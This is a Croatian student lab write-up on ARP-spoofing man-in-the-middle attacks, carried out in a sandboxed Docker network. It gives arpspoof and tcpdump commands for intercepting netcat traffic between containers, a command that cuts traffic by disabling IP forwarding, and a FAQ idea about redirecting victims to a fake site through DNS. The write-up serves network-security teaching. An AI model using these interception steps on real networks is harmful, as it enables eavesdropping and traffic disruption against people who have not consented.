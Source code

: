 # Lab 1 - Man-in-the-middle attack (ARP spoofing)

### Cilj

Zadatak ove vježbe je da nas upozna s tipom MITM napada, ARP spoofing. Također da bi uspješno proveli vježbu upoznat ćemo se s osnovama linuxa i nekim njegovim alatima.

### Korištene tehnologije

- WSL(Windows Subsystem for Linux)
- Docker
- Git
- Linux alati
    - Netcat
    - Arpspoof

### Podizanje radne okoline

Prvo smo pokrenutilo WSL bash te smo u njemu izveli sljedeće naredbe.

Napravi novi direktorij s nazivom *bdurdo*. Zatim otvori taj direktorij i u njemu kloniraj GitHub repositorij.

```bash
mkdir bdurdo
cd bdurdo
git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)
```

Zatim otvorimo *SRP-2021-22/arp-spoofing* direktorij te pokrenimo *.start.sh* koji će se pobrinuti za enviroment varijable, zaustavljanje i brisanje kontenjera ako postoje, izradu slika i pokretanje docker compose-a.

```bash
cd SRP-2021-22/
cd arp-spoofing/
./start.sh
```

Trenutno imamo podignuta 3 docker kontenjera koji su spojeni na zajedničku mrežu, te je okružje za laboratorijsku vježbu postavljeno.

Provjera jesu li kontenjeri stvarno podignuti

```bash
docker ps
```

Dodavanje više terminala na jednom prozoru → CTRL+SHIT+D

Pristupanje bash-u u svakom pojedinom pokrenutom kontenjeru

```bash
docker exec -it station-1 bash
docker exec -it station-2 bash
docker exec -it evil-station bash
```

Provjera konfiguracije mreže iz kontenjera

```bash
ifconfig -la
```

### Uspostavljanje komunikacije između servera

Provjera povezanosti kontenjera

```bash
ping station-2
```

Pokretanje netcat servera(*station-2*)

```bash
netcat -l -p 9000
```

Spajanje na netcat server(*station-1*)

```bash
netcat station-2 9000
```

Trenutno imamo spojen *station-1* i *station-2* te možemo razmjenjivati poruke između njih.

![Untitled](Lab1-Man-in-the-middleAttack(ARPspoofing)/Untitled.png)

### ARP spoof napad

Slušanje prometa

```bash
tcp dump
```

Kad pokrenemo ovo na *evil-station* ne vidimo pakete jer nam se nitko ni ne obraća

Preusmjeravanje prometa

- -t → target, onaj koga varamo
- -h → host - onaj kim se predstavljam

```bash
arpspoof -t station-1 station-2
```

OUTPUT:

> 2:42:ac:12:0:4 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.3 is-at 2:42:ac:12:0:4
> 

Što bi u prijevodu značilo govorim switchu da je na tome IP taj(u ovome slučaju moj) MAC

Filtriranje prometa od *host* i *station-1*(bez ARP paketa)

```bash
tcpdump -X host station-1 and not arp
```

Sada kad pošaljemo poruku možemo je vidjeti bez ostalih paketa.

![Untitled](Lab1-Man-in-the-middleAttack(ARPspoofing)/Untitled%201.png)

Prekid prometa (između *station-1* i *station-1*)

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

Izlaz iz pojedinog bash-a docker kontenjerazzzzzz

```bash
exit
```

Zaustavljenje i ukljanjanje docker kontenjera

```bash
./stop.sh
```

### FAQ

- Zašto je ovaj napad moguć?
    
    Kada se ARP definiriao 1982, nije postojao Wi-Fi, niti se tolika pažnja pridavala na napade intrudera u lokalnim mrežama. Kod nove inačice IPv6 nemamo ARP spoofing napad.
    
- Ako smo blokirali promet *station-1* prema *station-2*, zašto je *station-2* mogao poslati samo 2 poruke prema *station-1* iako mu put prema *station-1* nije blokiran?
    
    Odgovor se nalazi u samom TCP protokolu koji je korišten u netcat-u, koji zahtjeva potvrdu o uspješnom primitku poruke. Tako da poruka je uspješno došla do *station-1,* ali on to nije mogao javiti station-2 jer je taj put blokiran. Pošto TCP layer na *station-2* nije dobio potvrdu o primitku te poslane poruke ni nakon prve, ni nakon druge, treću nismo uspili niti poslati do *station-1* jer nije prošla kroz TCP layer na *station-2,* popunio se batch (buffer poruka koje čekaju potvrdu) i nove se ne mogu poslati dok te ne dobiju potvrdu i maknu se iz batcha. Da smo podesili UDP protokol kod netcat-a uspješno bi mogli slati poruke jer UDP ne zahtjeva potvrdu o uspješnom primitku, pomoću "-u" u naredbi.
    
    ```bash
    netcat -u -l -p 9000
    netcat -u station-2 9000
    ```
    
- Dodatne mogućnosti?
    
    Zavarati klijenta da smo mi switch i kada zatraži neku stranicu pobrinemo se da se nalazi u našem dns recordu te da smo hostali server za nju pa ga usmjerimo na tu fake stranicu. Također modificiramo response time da sve bude realnije. Za sve ostale requestove port forward.